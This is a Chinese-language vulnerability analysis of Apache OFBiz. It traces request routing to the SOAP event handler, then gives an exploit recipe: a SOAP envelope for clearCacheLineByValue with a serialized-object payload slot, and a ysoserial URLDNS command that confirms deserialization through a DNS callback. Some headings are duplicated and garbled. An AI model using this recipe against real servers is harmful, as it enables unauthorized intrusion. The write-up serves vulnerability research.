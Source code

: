 当前servlet的上下文会作为参数传递给RequestHandler.getRequestHandler，而getRequestHandler会去调用RequestHandler方法，给出部分关键代码：

```
private RequestHandler(ServletContext context) `{`
        // init the ControllerConfig, but don't save it anywhere, just load it into the cache
        this.controllerConfigURL = ConfigXMLReader.getControllerConfigURL(context);
        try `{`
            ConfigXMLReader.getControllerConfig(this.controllerConfigURL);
            ......
```

获取xml的配置信息，涉及到了ConfigXMLReader.getControllerConfigURL：

```
public static URL getControllerConfigURL(ServletContext context) `{`
        try `{`
            return context.getResource(controllerXmlFileName);
        `}` catch (MalformedURLException e) `{`
            Debug.logError(e, "Error Finding XML Config File: " + controllerXmlFileName, module);
            return null;
        `}`
    `}`
```

这里的controllerXmlFileName就是”/WEB-INF/controller.xml”，获取controller.xml<br>
中的相应映射关系，后续便是根据相应的映射关系，分配handler，处理请求。<br>
所以我们请求前文所提到soapservice服务，便将会由org.apache.ofbiz.webapp.event.SOAPEventHandler去处理该请求。



## 构造构造

### <a class="reference-link" name="URLDNS%E5%88%A9%E7%94%A8URLDNS%E5%88%A9%E7%94%A8"></a>URLDNS利用URLDNS利用

```
&lt;?xml version='1.0' encoding='UTF-8'?&gt;&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://ofbiz.apache.org/service/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;ns1:clearCacheLineByValue&gt;
&lt;ns1:cus-obj&gt;[payload]&lt;/ns1:cus-obj&gt;
&lt;/ns1:clearCacheLineByValue&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

执行命令：

```
java','-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', "URLDNS",[dnslog]

```

将结果转hex，粘贴到payload处<br>
得到回显
